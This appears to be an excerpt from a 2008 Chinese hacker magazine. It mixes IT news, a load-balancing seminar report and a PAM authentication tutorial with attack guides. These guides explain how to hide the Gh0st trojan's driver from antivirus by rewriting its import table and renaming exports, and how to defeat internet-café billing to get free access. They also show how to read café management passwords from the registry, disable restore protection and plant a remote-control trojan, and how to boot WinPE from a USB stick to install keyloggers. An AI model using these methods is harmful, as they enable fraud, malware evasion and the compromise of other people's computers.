第 4 个 lstrcmp 函数是以序号导入的，与其对应的 IMAGE_THUNK_DATA 结构的最高位等于 1，和函数的序号 0010h 组合起来的数值就是 80000010h。其余的 3 个函数采用的是以函数名导入的方式，所以 IMAGE_THUNK_DATA 结构的数值是一个 RVA，分别指向 3 个 IMAGE_IMPORT_BY_NAME 结构，每个 IMAGE_IMPORT_BY_NAME 结构的第一个字段是函数的序号，后面就是函数的字符串名称了。

了解了导入表的结构后，我们要修改它，使它不含函数名字符串就一目了然了，方法是将 IMAGE_THUNK_DATA 结构数组的每一元素（就是一个双字）的最高位改为 1，低位改成所指向的函数在 ntoskrnl.exe 中的导出序号，并把所有的 IMAGE_IMPORT_BY_NAME 清零就行了，如图 6 所示。
因为为了清除第一、第二处的特征码，我们修改了程序，所以再用 DDK 重新编译一下。重新编译后，导入表开始位置的 RVA 变为 780，如图 7 所示。

要改成序号导入应先找到这个文件导入了哪些函数，这些函数的序号分别是什么，这可以用 PEditor 得到，也可以在命令行用 dumpbin exports ntoskrnl.exe 得到。找到序号后，从图 7 中左边第一个箭头的地方开始，把下面左边的一列改成右边的一列：

```text
000007D8    8000002B    IofCompleteRequest
000007EE    8000006C    DbgPrint
000007FA    80000165    IoDeleteDevice
0000080C    80000167    IoDeleteSymbolicLink
00000824    80000260    KeServiceDescriptorTable
00000840    80000349    ProbeForWrite
00000850    80000348    ProbeForRead
00000860    8000015D    IoCreateSymbolicLink
00000878    80000154    IoCreateDevice
0000088A    80000421    RtlInitUnicodeString
000008B0    80000584    _except_handler3


```

修改后一并把 IMAGE_IMPORT_BY_NAME 结构清零，并把 IAT 的 IMAGE_THUNK_DATA 结构填充零，这样就如图 8 和图 6 所示了。

通过以上修改就清除函数名字符串了。由于驱动程序和一些重要的 DLL 文件如果校验和不正确，PE 装载器会拒绝装载的，所以还要用 PEditor 修正校验和。现在再用瑞星查杀一下 RESSDT.sys，正常通过了。
图 7
图 8

# Svchost.dll 文件的免杀

对于瑞星，将免杀的 RESSDT.sys 作为资源，编译生成 svchost.dll 文件后，特征码为 svchost.dll 导出的一个函数的函数名字符串 ResetSSDT，这个不是 case 吗？只要在所有源代码里，把 ResetSSDT 替换成 R_e_s_e_t_S_S_D_T 重新编译，就避开了瑞星的特征码。源代码就是个好东西啊！Svchost.dll 免杀后，以它为资源来编译生成的服务端瑞星就查不出来了。

# 结论

仅仅依靠传统的特征码识别技术来判别病毒和木马是远远不够的，因此要想获得更好的查杀效果，应该把传统的依靠代码特征来判别，真正转换到依靠行为特征来判别的轨道上。（声明：本文的目的是希望对病毒和木马的防御起到积极的作用，不承担技术被滥用所带来的后果。）

> 【本文介绍的相关程序已收录在本期光盘中】

## 编辑点评：

Gh0st 开源了，最近很火，有了代码，谁都可以编译出来。这是一篇源码级的免杀方法，思路很好，但就是能不能能不能推广到其他有源代码的木马上面呢？
上个月，Ubuntu 8.04 正式版发布，Linux QQ 出来了，ATI 最新的驱动也问世了。困扰 Linux 用户的两座大山一下子都被铲平了。聊天方便了，OpenOffice 也得心应手了。现在把 Windows 留在硬盘里的理由不也正少理由吗？

# 1、最新研究表明，Windows 使用份额将很快低于 90%

Net Applications 的最新研究报告指出，从他们统计的操作系统使用份额上看，不断小幅下滑的 Windows 正面临逼近 90% 关卡，而 Mac OS X 则有望在不久后达到两位数（超过 10%）。

Net Applications 的数据是基于每月大约 1.6 亿访问者的使用情况统计出来的，因此只能在一定范围内反映出操作系统、浏览器等的使用比例，而不代表整个业界内的市场份额。

在 2007 年 7 月份，Windows 的使用份额为 93.28%，而 Mac OS X 只有 5.99%，Linux 更不过 0.46%。

一年过去了，Windows 只剩下 90.89%，而 Mac OS X 和 Linux 则分别增长到 7.94% 和 0.80%。虽然整体而言远远无法和 Windows 相提并论，但相信这种趋势不是微软愿意看到的。按照目前的发展速度，Windows 的使用份额可能会在今年第四季度跌到 90% 以下。

## 风飘点评：

你还是微软的忠实用户吗？有没有发现你身边的朋友，他们的操作系统已在不知不觉中更换了呢？随着 Linux 等系统“门槛”的降低，更多用户发现原来 Windows 并不是最适合他们的操作系统。不得不承认，微软这段时间也过的很辛苦，兴衰都是平常事，有变迁才会有进步。

## 2、Mozilla 官方宣布 FireFox “下载日” 创吉尼斯世界纪录

Mozilla 本周三正式宣布称，该公司火狐 3 浏览器在发布之后的第一个 24 小时里下载次数达到了 8002530 次，创造了在 24 小时内软件下载次数最多的吉尼斯世界纪录。

Mozilla 负责市场营销的副总裁 Paul Kim 在声明中对火狐爱好者表示了感谢，称他们帮助创造了这个纪录。他说，我们的团体成员联合起来，不仅传播这个号召，而且还接受了这个计划，帮助动员了数百万人，这表明他们相信火狐浏览器能够为人们提供最好的在线体验。

Mozilla 在 5 月 28 日发起了这个创造下载纪录的活动，该公司要求火狐浏览器爱好者在 6 月 17 日火狐浏览器发布的当天下载这个软件，Mozilla 把这一天称做“下载日”。

## 风飘点评：

“下载日”在好久之前我们就已经在关注了，火狐终于成功了，这都要归功于广大用户的支持，这也是一个信号，相信不久，
```IE 也要败下阵来了。

# 3、谷歌开源内部数据语言，速度比 XML 快 100 倍

谷歌本周一发布了该公司内部使用的开放源代码数据描述语言 Protocol Buffers。Protocol Buffers 与 XML 相似，但更简单、更小、更快。

谷歌开放源代码项目经理克里斯·迪邦纳（Chris DiBona）在一篇博文中写道：“我们在网络上传输或在磁盘上存储的几乎所有结构化信息都采用了这种语言，我们认为 Protocol Buffers 可能对其他人也有用，因此我们决定将它发布为开放源代码软件。”

谷歌软件工程师肯顿·瓦尔达（Kenton Varda）在公司的开放源代码博客上发表文章称，谷歌使用数千种不同的数据格式，其中大多数都是结构化数据格式。XML 无法胜任对这些海量结构化数据编码的重任，谷歌于是开发了 Protocol Buffers。

瓦尔达将 Protocol Buffers 比作是一种界面描述语言，但没有界面描述语言的复杂性。他说，Protocol Buffers 的主要设计目标之一是简洁，所以 Protocol Buffers 进行解析的速度也很快，比 XML 要快出至少一个量级。

谷歌的文档称，与具有可比性的 XML 文件相比，Protocol Buffers 文件的尺寸要小 3-10 倍，解析速度要快 20-100 倍。谷歌发布的免费文件包括采用 Java、Python 和 C++ 编程语言编写的 Protocol Buffers 编译器源代码，该公司还计划将许多其它软件项目发布为开放源代码软件，因为这些项目会用到 Protocol Buffers，所以首先将它发布为开放源代码软件。

风飘点评：

Google 又让我们震惊了一次，它的经营理念还是让小编敬佩的。最近，Google 不仅仅开源了内部的数据语言，也同时开源了许多程序和应用，比如安全检测工具 RatProxy。相比之下，至少个人觉得，微软最近所表现出来的那些“诚意”就略显苍白无力了。

# 4、腾讯研发官方版 Linux QQ

腾讯已经开始着手研发基于 Linux 操作系统的 QQ，这款产品已进入测试阶段，并将于 7 月正式发布。与此同时，官方开发的 QQ for Mac 1.0 版已经公开邀请用户参与体验计划，QQ 对跨平台开发的态度越来越开放。

腾讯公司的 Linux 版 QQ 研发酝酿已久，在 4 月英特尔信息技术峰会（IDF）上，爱国者总裁冯军就曾在超移动互联网设备（MID）上演示了 QQ，而演示的 MID 样机就是基于 Linux 操作系统的，当时网上也出现了“腾讯秘密研发 Linux QQ”的传闻，只是没有发布的具体时间，同时该传闻也没有得到官方确认。

据了解，这款 QQ 产品另一大看点是完全支持国产龙芯 CPU，未来将在教育领域与龙芯进行捆绑推广，这也就意味着今后每台龙芯电脑都可预装腾讯官方的 Linux QQ。龙芯是目前国家重点扶植的自主核心技术，未来在政府部门、教育行业预计会得到着重培养，QQ 支持了龙芯，等于支持民族产业。

据了解，很多采用 Linux 系统的专业用户都对 Linux QQ 满怀期待；支持龙芯的各界人士也对这次腾讯和龙芯的并肩作战寄予厚望。

风飘点评：

好消息啊，盼这天盼了好久了，不是吗？不知道 Linux QQ 为什么要等这么久才露面，但最终还是出来了。同时不得不说与龙芯携手是一步好棋，看来之前对 QQ 悲观的态度要改改了，从最新版 QQ 的改变，到最近的 Linux QQ，看来 TX 真的决定“痛改前非”了。

# 图东东 XApache

2008 年 7 月的第一个周末，《黑客手册》的小编——XApache，将受土豆大人的委派，参加一个有关负载均衡技术的沙龙，任务：为黑手的高端读者们贡献第一手的负载均衡技术资料。同行的有我们《黑客手册》的铁杆读者东东——刚从苏州来北京的网络工程师，虽然只有 23 岁，但却是拥有两年工作经验的 CCNP，只是个性稍微有点单纯，没啥时间观念，这不，害我在他小区的楼下等了他半小时，这才眯着眼睛出来了。我们此次行程的目的地是：北京市石景山图书馆（离《黑客手册》的主基地不远哦）。

北京这段时间也不知道怎么回事，天天下雨，而且还不固定时间，突然就给你来个两瓢。乘着地铁来到了石景山区，一出站台就发现下起了小雨。石景山区人口密度和北京其他行政区域比起来要小很多，而且街道很干净。淅淅沥沥的小雨下着，空气很清新。叫了个 TAXI，放下车窗欣赏路边的风景。正在陶醉呢，突然听东东感叹了一声：“好像我家苏州新区啊~”。汗，东东啊，你才来北京一个礼拜就想家了？不过，下着小雨的天气，干净的街道，良好的绿化环境，路上三三两两的人群……果然还是很有苏州新区的感觉。

最重要的是，路上的八角游乐园让我们想起了中国大陆的迪斯尼——苏州乐园。东东说，哎，《黑客手册》的编辑们在这样的环境下工作和生活，真是好幸福啊，我也要搬过来住！“哼哼，你们公司好像在北京最东面吧，您老人家又爱睡懒觉，能每天 6 点起床坐车去上班吗？”东东：“这个……”

地铁站离石景山图书馆很近，而且坐车也方便，很快我们就到了会场，位于图书馆三楼的一个演示大厅。刚到接待处，哇……好多 MM 啊，把门口挤得水泄不通，难道这次的技术讲座那么受 MM 们的欢迎？还没来得及迟疑，就被 MM 们热情地接待了，哦，原来是没有穿制服的工作人员（某猴编辑的时候看成了“没有穿衣服的工作人员”）。

会场中已经坐了有四五十号人，每人桌上一台电脑，活动还没开始，所以先来的人已经互相聊了起来，感觉像大一时候的上机课。东东和我找了个位置坐下，看了看发到手里的资料，原来是国内的一个著名技术站点 51CTO 主办的，今天讲的主要题目就是：负载均衡的相关技术。

## 负载均衡技术的小知识

负载均衡就像轮流值日制度，把任务分给大家来完成，以免让一个人过度劳累。数据链路层、网络层、传输层、应用层都有相应的负载均衡技术。

由于在工作中，东东和我都会接触到此类技术，也经常配置这样的服务器和设备，所以我们这次很想听听专家的意见和看法。

终于到点了，会场里的人也来得差不多了。下午 14:00，主持人宣布活动开始，东东的眼睛比较尖，“看，国内著名的 Cisco 技术专家白璐！”我循声望去，一个有点胖但气质很不错的大哥在台上致辞，边上还有个女孩和他搭档。东东问我有没有看过白璐写的一篇很著名的文章，我平时对思科关注不多，因此一脸茫然，结果被他报以鄙视的眼神。

开场白很快就说完了，我们看到拥有多年大型网络管理经验的黄琨老师走上了演讲台，他看上去比较严肃的样子，不过讲解很到位，专业术语信手拈来，滔滔不绝。大家在下面不敢有半点走神，东东更是听得如痴如醉，咦……不对啊，怎么还在流口水……东东，你不是睡着了吧？被我摇醒之后，东东眯着眼睛继续听课，我有点后悔在周末的 11 点前叫他起床了。

在黄琨老师的讲义中，对于为什么要使用集群，他说道：Internet 的飞速发展给网络带宽和服务器性能带来了巨大的挑战。用硬件和软件实现高效网络服务的需求，归结成四点，即：可伸缩性、高可用性、可管理性、价格有效性。而要实现这四点要求，单一的服务器肯定是不能保证的，这就是需要集群的重要原因。

> 那集群技术又有几种呢？
> 答：集群根据实际的应用要求又分为三大类，即：高可扩展性集群、高可靠性集群（HA）、高性能计算集群（HPC）。一个完整的集群结构应该是怎样的呢？如图 1 所示。

在负载均衡器的选择上，可以选用 Unix 体系的 LVS，也可以选择用硬件的 Cisco 和 F5 等设备。负载的方式可以分为三种：VSNAT、VSTUN、VSDR。NAT 大部分人都听过，后面两种可能有点少见，它们分别是 IP Tunneling 和 Direct Routing 的意思。喜欢看视频网站的朋友一定知道土豆网和优酷吧，他们的站点就用了后面两种，效率是 NAT 结构的 10 倍以上哦。

图 1 完整的集群结构

至于动态页面和静态页面分开，数据库置于后端等常规用法，黄琨老师也提到了一些，但这并不是本次沙龙的重点，他后面讲到的一个话题，想必是很多黑客朋友所关心的。即：使用多个 WEB 服务器集群以后，像论坛那种应用怎么才能锁定其中一台服务器呢？这里提供的办法是：IPVS 调度器，它提供了持久服务的功能，可以使得在设定时间内，来自同一个 IP 地址的不同连接发送到集群中同一台服务器上，不会丢掉凭证。

一个小时很快就过去了，中场休息，大家开始七嘴八舌地聊了起来，东东一边和同样搞思科的人聊最近 Cisco 考试费涨价问题，一边忙不迭地和大家交换名片，整个好像换了个人似的，口若悬河，神采飞扬，好像刚才瞌睡的不是他，而是我。

和边上的朋友互相认识了一下，就开始轮到田逸大哥讲了。田逸大哥搞 Linux、Solaris 已经很久了，经验非常丰富。虽然普通话说得不太标准，但是人很亲切。他讲解的是一个真实的案例——由两个负载均衡器，加两个 Apache，加两个 MySQL，外带备份服务器和监控服务器构成的集群，在实际工作中的运作情况。示意图如图 2、图 3 所示。

图 2 LVS 负载均衡及用户数据访问路径

对于集群系统的具体实践，他提到了四个要点：

- 一、对于访问频繁的 BBS、BLOG 最好使用 MySQL Proxy 技术；
- 二、数据库与外部要网络隔离；
- 三、部署监控系统；
- 四、备份服务器。

在技术实现上，田逸大哥告诉我们，用内核支持 LVS 的系统加装 Keepalived 之类的工具，就可以实现可靠的负载转发，不用担心客户端的请求会让服务器端处理混乱。

图 3 发生故障的情形

而数据库端用了 MySQL 主从复制功能，又能大大地提高数据库的工作效率。至于监控，他推荐了 nagios 工具，最后一个备份问题，就八仙过海各显神通了，比如小编用的就是：mysqldump 导出数据、gzip 打包、crontab 定时上传……

最后在安全问题上，他提醒我们要使用“先关门后开窗”的 iptables 配置，然后再将 MySQL 置于防火墙后端，以免不测……

两个小时的精彩演讲终于结束了，问题时间开始。由于这次参加沙龙的有不少是各大网站的一线技术人员，于是针对田逸大哥刚才的案例，大家开始了各种各样的提问，两位专家也很有耐心地做了解答。下面将一些典型的问题列举如下，各位读者如果有相同疑问的，请仔细阅读。

- 1. 问：LVS 方案是否适用于 Windows 环境？  
  答：可以。目前 LVS 转发器只支持 Linux 等，但真实服务器就可以是各种操作系统及应用。问题的关键在于设置 Windows 的虚拟 IP 的掩码为 4 个 255。

- 2. 问：用户状态是怎么保持的？  
  答：对于 BBS 这样的应用，需要保持这个会话，如果没这个功能，用户将永远不能登录（因为登录界面是一个真机，点登录按钮后可能是另外一个真机了）。会话保持的功能在 LVS 控制器部分完成，具体表现在 keepalived.conf 文件的 persistence_timeout 选项。

- 3. 问：应用程序之间怎样实现数据同步？  
  答：数据同步是一个不得不面对的问题，在真实的场景中，有不少方案是 rsync。说实话，如果同步的机器数量到一个级别，这将是非常混乱的一个问题（很难分清是谁同步谁），而且耗费大量的网络资源。建议采取共享存储的方式来实现，这样就只有一份数据，不存在同步的问题了。这个对于 J2EE 这样的开发应用同样适用。

- 4. 问：不同 IDC 机房的 LVS，如何实现不同地域的客户就近访问 LVS 服务？  
  答：这个问题与 LVS 本身关系不大，与 DNS 有关。在 bind 9 中，有一个 view 的选项，是专门用来实现这个愿望的。具体的设置就是在 named.conf 中添加 view 子句块。

- 5. 问：负载均衡性能调优有哪些？  
  答：这个问题很有挑战性，因为整个方案是一个整体，调优涉及本身的设计、系统、程序、数据库等等，是一个动态过程，所以一言难尽，也难包罗万象。就调优这块，就可以做一个专题了。

- 6. 问：开源的 Squid 等做负载的效率跟 F5 比较怎样？  
  答：有些开源工具带负载均衡模块，如 Apache、Tomcat 等，这些功能有点像手机带的照相功能。这里讲的 Squid，它的主要作用是缓存内容，而不是我们方案中所介绍的 LVS。在 CDN 技术中，常常用 LVS 来负载 Squid 应用呢！F5 是一个硬件，它与 LVS 开源方案实现相似的功能（有缓存功能），至于性能，没什么直观的经验。

- 7. 问：几个相同的应用，如 BBS、BLOG、WWW 叠加在一个 Apache 上面，这个机器的 IO 和负载会不会不稳定？  
  答：这个方案的出发点就是要解决负载问题。前端的调度器（LVS 负载器负责转发请求）会根据各服务器的负载状况分配任务，如果真的引起较高的负载（每个真机负载都很高），我们这个方案是可扩展的，再加机器即可！

临近沙龙结束时，有一个小小的抽奖活动，20 位幸运者将获得 51CTO 的站衫，5 位幸运者还能获得价值 1000 元的技术培训。结果东东这两样东西都拿到了，让我不得不对他突然的人品爆发行为感到深深的费解。

晚上在住处，一无所获的我面对穿着站衫拿着千元培训卡一脸傻笑的东东，心理颇有点不平衡的感觉，勒令他马上给我写出一篇 3000 字以上的通讯稿。东东一脸苦相，而我夺走他的培训卡，扒下他的站衫后丢下一句话：“获得的东东越多，身上的责任就越重，东东，你要好好写，不要让土豆大人失望，这件衣服我先去穿两天，你把文章写好后再来找我吧。”

“不要啊～”门后是东东无比惨痛的哀嚎，而我，大步流星，穿着花衣裳消失在雨夜中……

## 负载均衡技术对黑客攻击的影响

- MySQL Proxy：启动 MySQL Proxy 的时候，加载一个 Lua 脚本，对每一个进入的 query 或者 insert 之类的语句做一次安全检查，甚至替换查询中的某些内容。这样，在程序中忘记了过滤参数的情况下，还有最后一道防线可用，对 SQL 注入起到很好的防御作用。
- Cisco LocalDirector、F5 BIGIP：采用 Cisco LocalDirector 或 F5 BIGIP 这样的负载均衡器以后，依靠多服务器节点共同协作，能有效抵抗 DDOS 之类的拒绝服务攻击。

# Unix 系统安全——可插拔式认证模块初探

evilangel

## 从本文您可以学到：了解 PAM 认证

一台服务器会开着不同的服务，很多服务本身并没有认证功能，只是把认证交给用户名及密码，那么如果所有服务都用 Unix 系统的用户名及密码来认证，对于服务器来说是很危险的。比如一台服务器开着 FTP、SMTP、SSH，那么新建一个用户默认就享有以上的服务，也就是说一个用户的账号密码泄露会涉及到多个服务。那么在类 Unix 系统中，新型的认证模块——PAM 就能解决认证方面的不足。

> 小提示：PAM（Pluggable Authentication Modules）中文称可插拔式认证模块，它表示一种性能较高而且灵活的用户级认证方式。目前，PAM 已经成为了 Linux、BSD 和其他一些 Unix 系统的首选认证方式，但在每个发行版本 Unix 系统中的操作方式有一定的不同，本文以 RHEL4 来演示。

PAM 的一般认证方式是 Service（服务）-> PAM（配置文件）-> pam_*.so，PAM 认证首先要确定是某项服务，然后加载 PAM 的配置文件（/etc/pam.d），最后调用认证文件（/lib/security），这是一般情况。在系统安装时就会在 /etc/pam.d 给我们一些配置文件，如图 1 所示，而 /lib/security 目录是认证文件默认存放的位置。

其实 PAM 认证还是比较复杂的，片面地讲它包括四种常见认证类型（module type）：auth 认证管理、account 用户管理、password 密码认证管理、session 会话管理。它在配置文件区域 1 的位置如图 2 所示。它又包含了四种认证的流程控制，分别是 required、requisite、sufficient 和 optional，位于区域 2。而区域 3 就是认证的 PAM 文件了。我找一个比较全面的认证类型的服务给大家演示，如图 2 所示，是 Unix 系统验证用户登录的 PAM——login。

PAM 认证流程是从行首验证到行尾，逐条认证。比如用户登录服务器，共有十条 auth 类型认证，假设第一条认证失败，一般情况后九条也必须要认证。为什么说一般情况呢？其实还有非一般情况。那么这个用户动作成功与否是要看 auth 认证后面的区域 2 是怎么处理。

在图 2 中看到处理字段有 required 和 optional，其中 required 代表认证必须通过，也就是说，无论成功多少条语句，只要失败一条，那么认证失败。

在图 2 中的区域 3 就是认证的模块了，第二行中的“pam_securetty.so”就是这个文件。在 RHEL 中，认证大多是用相对路径。我简单地说一下“pam_securetty.so”的作用，方便以下为大家演示。

该认证模块只对 root 用户有效，当 root 登录系统时，会查看有没有安全终端，安全终端就是 /etc/securetty 文件里的东西，比如你运行“w”命令看到 TTY 下面的东西就是安全终端。如果有安全终端通过认证，否则失败。有些管理员为了安全，不让 root 用户直接登录，他会把 /etc/securetty 文件清空，这就保证了在有 root 密码时，也不能在本地登录。

为了以下的实验方便，能看出效果来，我把这条认证加入 SSH 服务的 PAM 模块认证文件里（/etc/pam.d/sshd）的第一行，目的就是让 SSH 服务应用这条认证。如果把这条语句加到 login 文件，就控制的是从本地控制台登录；那么如果把这条语句加入到 sshd 文件内，那么它将控制的是从远程登录服务器 22 端口的过程。

试着用 root 登录，无论密码正确与否，root 用户都不可以远程登录（SSH 服务），如图 3 所示。

> 提示：图 3 中的 ssh -l 命令可以指定登录远程服务器的用户名；tail -3 查看文件后 3 行的内容，当然数字是你想查看内容的行数。

了解了认证类型的工作方式，我们还应该深入地理解认证的处理方式，在图 2 中看到，它的认证处理方式是 required，表示这一模块的认证是必须成功的，但如果失败，认证过程不会即刻终止，PAM 将继续下一个同类型的模块认证。

上面 “pam_securetty.so” 认证失败了，但认证并没有结束，认证的 “指针” 还在向下走。如图 3 中，在认证失败的前提下还提示用户输入密码，虽然认证不可能成功！

处理过程中除了 required，还有 requisite、sufficient 和 optional，我们再来看看 requisite 的效果，还用 SSH 服务，把第一行的 “auth required pam_securetty.so” 改成 “auth requisite pam_securetty.so”。

再次尝试登录，发现和图 3 没有什么差别，也是输入 3 次密码后被拒绝了。但是细心的读者如果一边看着文章一边尝试着实验的话，你会发现当你在输入密码时，用 required 反应的速度要慢一些，并且在系统日志中是没有记录的，认证同样是失败的。

**这说明 requisite 和 required 类似的地方是认证必须通过，而不同的是如果失败，认证过程将立即终止，不会去认证下面的条目。**

如果你用 VMware 测试，用 /etc/pam.d/login 来限制 root 登录控制台时，你会发现当用 required 时，你在 VMware 的 “显示器” 输入 root 及密码后，你得到了一个拒绝信息；而用 requisite 时，当你输入 root 回车时就得到拒绝信息。这时你就应该知道这种认证方式在那个事件触发认证的，认证是如何影响结果的，深入理解认证的触发及流程你才有可能通过认证的束缚！

sufficient 表示如果认证成功，那么对这一类型的模块认证是充足的了，其他的同类模块将不会再检验。当该认证失败，它会进行下一条认证，如果下面同类型的认证成功，结果依然成功。

optional 表示这一模块认证是可选的，也不会对认证成功或失败产生影响，这个就比较危险了。

比如我在 /etc/pam.d/sshd 文件内加入 “**auth required /lib/security/pam_listfile.so item=user sense=allow file=/etc/sshusers onerr=succeed**”，看过以前文章的能明白，意思是只允许出现在 /etc/sshuser 文件内的用户远程登录，拒绝其它用户。

那么试着用 root 登录，“ssh -l root localhost”，如图 4 所示，当 sshusers 文件没有 root 用户时，登录失败！很明显他被 PAM 模块拒绝了。那么我们改一下认证文件，将 required 改成 sufficient，尝试再次登录，成功了！如图 5 所示。


小结：对于控制 root 本地及远程登录的方法很多，本文只是利用它来演示 PAM 认证的方法，这期主要介绍了 PAM 的简单认证类型及认证处理流程，这是 PAM 认证比较初级的东西了。PAM 作为类 UNIX 系统的主打认证模式，掌握它非常有利于提高类 UNIX 系统的认证功力，PAM 不仅仅提高系统的安全性，还可以用户访问资源等等，如果想了解更多，请你关注《黑客手册》。

> **编辑点评：**
> 要了解 Unix 的认证模式，就不能不先了解 PAM，也许这些知识小菜看得会晕晕的，不过没关系，只要你耐心的学下去，你会发现其实这一点也不难，并且它对你了解 Unix 有巨大的帮助。

# 突破网吧 hcclient 系统

泡吧首语：
黑手的读者当中也有不少的网吧族吧？不过，我劝大家还是少去玩坏的好。当然，作为技术的研究和探讨是无可厚非的。大家多学学技术才是正常的。

想免费上网就要让电脑开机不运行 RunMe.exe 和 System.exe，并且进入电脑后把 C:\Program Files\hc 文件夹及其内部文件全部删除。

现在不少网吧的计费系统换成了 hcclient 系统，囊中羞涩的我本来想去网上搜一下破解的方法，发现并没有一个简单方便的破解方法，只有 “自己动手，丰衣足食” 了。

针对大部分的还原卡或还原精灵，有一个简单的方法，就是利用电脑的 “注销” 功能。电脑在注销时大部分的还原卡或还原精灵是不起保护作用的。

在网吧里的电脑大部分都装了还原卡或还原精灵，所以要想免费上网就要让还原软件或硬件不起作用，然后就可以轻松的除掉计费系统了。


我研究了一下，此计费系统有两个进程，分别是 RunMe.exe 和 System.exe，而且是开机后自动运行，并且计费系统的 “大本营” 就在 C:\Program Files\hc 文件夹下，如图 1 所示。


此计费系统工作的原理就是在开机时自动运行 RunMe.exe 和 System.exe。电脑开机时如果不运行 RunMe.exe 和 System.exe，过一段时间电脑就会自动重启，这就是 C:\Program Files\hc 文件夹下的文件搞的鬼。所以我们要首先我们在柜台上刷卡上机，然后再调出msconfig.exe，关闭RunMe.exe和System.exe的自动运行，如图2所示。

然后注销电脑，再登录电脑（网吧电脑是没有密码的，如果你用的电脑有密码，那就自己去先破解密码吧），到这时要注意，此时计费系统不会出现了，不过因 C:\Program Files\hc文件夹下文件的存在，电脑会在几十秒内重启（自己感觉的，没有测过时间），不过时间足够我们用的了。

现在我们进入 C:\Program Files文件夹下删除hc文件夹，你会发现无法删除！没有关系，右键点击hc文件夹，选择“添加到压缩文件夹”，如图3所示。


再选择“压缩后删除源文件”并点击“确定”，这样就把计费系统破解了。然后你刷卡下机，这样就不会收费了，你也可以免费上网了。

> **编辑点评：**
> 想来作者破这套软件也花费了不少时间吧，呵呵，研究的挺细致的，相信这篇文章一出，又有好多网管遭殃了。不过，各位还是收敛点好，这几个月都是敏感的日子呀！

# 手动+社工轻松破解网维大师还原

从本文你可以学到：
- 如何利用注册表破解网维

有许多网吧是用万象和网维大师管理的，万象的密码也有许多工具可以读出来，可是我在网吧上的时候，用几个工具读出来的MD5密码都是C89EB08CCA84DF71C498ACAFBD8BDB。大家自己算算，只有30个字节，看来工具并不是都可靠。工具无法用，还是要靠自己的双手，“自己动手，丰衣足食”嘛。

现在就告诉大家如何做：先打开注册表，展开HKEY_CURRENT_USER\Software\Sicent\wx2004Clt，如图1所示。


双击下面3个名称中的1个（一般网管都会把密码设置成一样的，方便记忆），打开后如图2所示。


!!!RunSetCipher
!!!UnlockCipher
!!!IESetCipher

复制数值数据，到网上查（这次的数据和工具读的不一样哦），如图3所示。


找到了，是950318。然后再打开网维大师的界面，点击右上角的“设置”，输入密码，如图4、图5、图6所示。密码对了就赶紧设置“取消还原”吧。


接着系统会重启，然后再来看看屏幕右下角，如图7所示，已经是非还原状态了。


接下来该怎么做就大家自己做了哟，我放了个控制木马，然后再设置还原，如图8所示，抓到肉鸡上线了。


> **编辑点评：**
> 刚看题目以为作者会写一大通让大家知道如何和网管周旋，然后再到密码的文章，可细细一看，竟然是利用读注册表项，然后再破解。有时候工具真的不能太依赖，自己才是最可靠的。这是一个很简单却又实用的方法，相信大家以后会用得着的。

## 巧用WinPE破解还原软件

从本文你可以学到：
- 如何利用winpe破解还原

说起WinPE，大家首先想到的是做系统维护，例如系统崩溃了，可以借助它进入系统进行维护。但不知大家是否想过把WinPE带到网吧去使用。因为它包含系统所需的最基本的内核与服务，这样就可以跳过很多程序进入系统，而且因为缺少一些程序所必须的系统文件，所以很多程序无法运行，这一点可以好好利用一下，嘿嘿……相信大家应该明白我的想法了，就是趁还原软件未启动时，上传我们要保存的东西。

为了把WinPE带到网吧，我们需要将它放在类似U盘的移动存储中，这也是最为关键的一步。我们在这里用“REBOOT”来做个U盘版的WinPE，赶快看下面的制作步骤。

第一步：将准备好的U盘里的文件备份，再将“REBOOT.ISO”文件用WinRAR压缩到“REBOOT”的文件夹中。在它的子文件夹 “SETUP/USBOOT” 中运行 USBOOT.exe，打开 “USBOOT 1.68” 窗口，在列表中选中 U 盘的盘符，单击下方的 “点击此处选择工作模式” 选项，在菜单中选 “zip 模式”，再按提示进行操作就可以制造出引导型 U 盘了。

等待一会儿直到提示 “引导型 U 盘制作成功” 就完成了第一步了，如图 1 所示。


第二步：重启电脑，测试我们刚做的引导 U 盘。重启电脑时，按 DEL 键进入 CMOS 设置，将引导顺序改为由 USB-ZIP 优先。保存后重启时插入 U 盘测试能否进入 DOS，如果能进入则说明 U 盘引导成功，我们可以继续下一步了；如果 U 盘引导失败，则说明主板或 U 盘不支持引导，或者在制作引导盘时的一步出错了，就需要重新进行设置。

第三步：我们将 WinPE 移动到 U 盘里。首先将 U 盘里面的东西全部删掉，打开 “REBOOT” 文件夹，将 “RWIN.STF”、“RWIN.COM”、“RWIN.IMG”、“RWIN.LDR” 四个文件发送到 U 盘，并将 “RWIN.LDR” 文件重命名为 “NTLDR”（无后缀名）。

第四步：回到 “REBOOT” 文件夹，打开 “SETUP” 文件夹，会看到 “NTBOOT.exe”，记住此文件的绝对路径，如图 2 所示。


如本例中这个文件的绝对路径是 F:\REBOOT\SETUP\。打开 CMD 执行 F:\REBOOT\SETUP\NTBOOT.EXE I:(I 为 U 盘盘符)。如显示：FAT 则表示操作成功，如图 3 所示。


这时最好重启测试一下，看能否引导并进入 WinPE。

如果上述操作成功，我们就可以开始进行下面的操作了。准备好我们要保存的东西，比如键盘记录器什么的，设置好后提前将做好的木马保存在我们的 U 盘上，然后去网吧找一台机子，进入 WinPE。先测试一下，保存一个文件放在 D 盘里（也可以放在其他地方，不过别放在桌面上），如图 4 所示。


重新启动电脑，进入硬盘引导，如果能够看到这个文件就表示我们成功了，如图 5 所示。

现在再进入 WinPE 挂上我们的马，选择一个自动加载的方式使其运行，方法很多，例如注册表中 Userinit 的位置，AutoRun.inf 等都可以，“黑手”以前也有过介绍，这里就不多说了。做好上述工作后要注意擦 PP 哦！

好了，我就讲到这里，其实进入 WinPE 后我们可以利用的还有很多，比如对系统进行更改，甚至利用粘滞键，在未进行登录的情况下调用我们想要运行的程序。这里就抛砖引玉了，希望大家可以接着这个思路继续下去。最后祝大家玩的愉快，我的 ID 是孤冷飞寒，希望可以与大家在论坛中讨论。

> **编辑点评：**
> 不管是 winpe 还是其它工具，只要思路掌握了就不难面对网吧的各种限制。各种还原工具很少会对 bios 进行保护，这是一个明显的软肋。就像文章中作者一样，制作一个启动盘带到网吧，又有多少网吧会注意到这样的漏洞存在呢？
> 
> **字语：**
> 儿子对父亲说 “如果我做好了事，是不是应该受到表扬？”
> “当然，不但要表扬而且还应该奖励。儿子究竟你做了什么好事？”
> “其实也没什么，只不过我把您的电脑高级格式化了一下，使它变得档次更高高级了。”儿子谦虚地说。

## Windows 下 RootKit 编写初步 (三)

## 驱动程序与用户空间的通信
### (用户空间部分与驱动部分续)

图书馆 @ [ 电子科技大学凝翠网络安全工作室 ]

